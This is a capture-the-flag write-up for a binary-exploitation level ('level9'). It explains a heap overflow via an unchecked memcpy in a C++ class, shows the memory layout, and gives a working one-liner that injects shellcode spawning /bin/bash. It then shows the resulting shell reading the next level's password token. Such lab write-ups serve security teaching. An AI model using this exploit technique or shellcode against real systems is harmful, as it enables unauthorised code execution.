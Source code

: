 # level9

## Header

```bash
ssh level9@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```

<hr>

## Solution

From the [dissassembled code](./source.cpp) and [source](./source.cpp) we see, that there is a `struct` or `class` called N that has internal buffer of 100 bytes, a setter that write to this buffer and a pointer to member functions that is called in `main`.

Here is the scheme that represents the memory after creation objects. 
```bash
0x804a008 int (N::*ptr)(const N &);  <- first N object (n1)
0x804a00c char buf[100];
0x804a070 int num;
0x804a074                            <- padding (4 bytes)
0x804a078 int (N::*ptr)(const N &);  <- second N object (n2)
0x804a07c char buf[100];
0x804a0e0 int num;
```

The pointer is called on the second object, so we're going to overwrite it through `n1->setAnnotation(av[1]);`
```c
(n2->*(n2->ptr))(*n1);
```

The main vulnerability is that `setAnnotation` uses unprotected `memcpy` call. The whole `arg` will be copied, as the `strlen(arg)` is passed as 3rd parameter and not the size of the internal buffer.
```c
memcpy(buf, arg, strlen(arg));
```

To exploit we need to place shellcode into buffer and overwrite return address to jump to the stack. <br>
One more thing. As the pointer is being dereferenced during call, we're overwriting return address with the beginning of the buffer and placing second address right at the beginning of the buffer which points to the shellcode. <br>

Look at the default ptr value from the source code:
```c
...
ptr = &N::operator+;
...
```
When it'll be executed `operator+` will be called, but the address that stores `operator+` address is placed into `ptr`. <br>
That is why we need to overwrite return address not with address of the shellcode, but with the address that points to the address of the shellcode. 

```bash
./level9 $(python -c 'print "\x08\x04\xa0\x24"[::-1] + "X" * 20 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "X" * 51 + "\x08\x04\xa0\x0c"[::-1]')
```

Getting the token from the shell:
```bash
bash-4.2$ pwd
/home/user/level9
bash-4.2$ cd ../bonus0
bash-4.2$ ls -la
total 17
dr-xr-x---+ 1 bonus0 bonus0   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus0 bonus0  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus0 bonus0 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus0 bonus0   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus0 bonus0  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
bash-4.2$ cat .pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## References
